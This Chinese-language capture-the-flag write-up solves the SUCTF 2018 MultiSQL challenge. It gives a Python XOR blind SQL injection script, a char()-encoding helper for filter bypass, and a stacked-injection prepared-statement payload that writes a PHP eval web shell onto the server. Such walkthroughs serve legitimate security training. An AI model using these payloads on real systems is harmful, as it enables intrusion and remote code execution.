 # [SUCTF 2018]MultiSQL

## 知识点

`堆叠注入`

`异或注入`

`sql预编译写入shell`

## 解题

首页没有找到利用的东西

![](./img/[SUCTF 2018]MultiSQL-1.png)

查看源代码，发现了`注册`和`登录`

![](./img/[SUCTF 2018]MultiSQL-2.png)

简单注册登录后发现`url中有id参数`，尝试异或是否能正常执行，正常界面如下

![](./img/[SUCTF 2018]MultiSQL-3.png)

`0^6`返回`id=6`的界面,`6^6`返回`id=0`的界面

![](./img/[SUCTF 2018]MultiSQL-4.png)

![](./img/[SUCTF 2018]MultiSQL-5.png)

尝试异或注入，使用代码判断数据库长度

```python
import requests
# from urllib.parse import urljoin

url = 'http://1819e187-71c1-48af-8e9a-5d77f5213894.node5.buuoj.cn:81/user/user.php?id='

COOKIE = {'PHPSESSID': 'hrsljrip8dshqjd9krvdr99b65'}

def judge_database(db_length):
    """ 获取数据库长度 """
    for i in range(db_length):
        tmp_url = f"{url}0^(length(database())={i})"
        resp = requests.get(tmp_url, timeout=8, cookies=COOKIE)
        if "user_name:admin" in resp.text:          # 正确条件
            print(f"Database length is: {i}")
            break
        print(f"try 0^(length(database())={i})")


if __name__ == '__main__':
    db_length = 20
    judge_database(db_length)
```

![](./img/[SUCTF 2018]MultiSQL-6.png)

发现可以注入数据库，但是后面似乎过滤了`substrd`等，尝试堆叠注入直接写入文件

使用`python`代码生成`sql char hex`编码

```python
def sql_to_char(sql):
    strings = ','.join([str(ord(c)) for c in sql])
    print(f"char({strings})")

# sql_statement = "select sleep(2);"

sql_statement = "select '<?php eval($_POST[_]);?>' into outfile '/var/www/html/favicon/1.php';"


sql_to_char(sql_statement)

# char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,95,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,49,46,112,104,112,39,59)
```

通过预编译和堆叠注入直接写入文件

```
?id=2;set+@sql=char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,95,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,49,46,112,104,112,39,59);prepare+query+from+@sql;execute+query;
```

![](./img/[SUCTF 2018]MultiSQL-7.png)

![](./img/[SUCTF 2018]MultiSQL-8.png)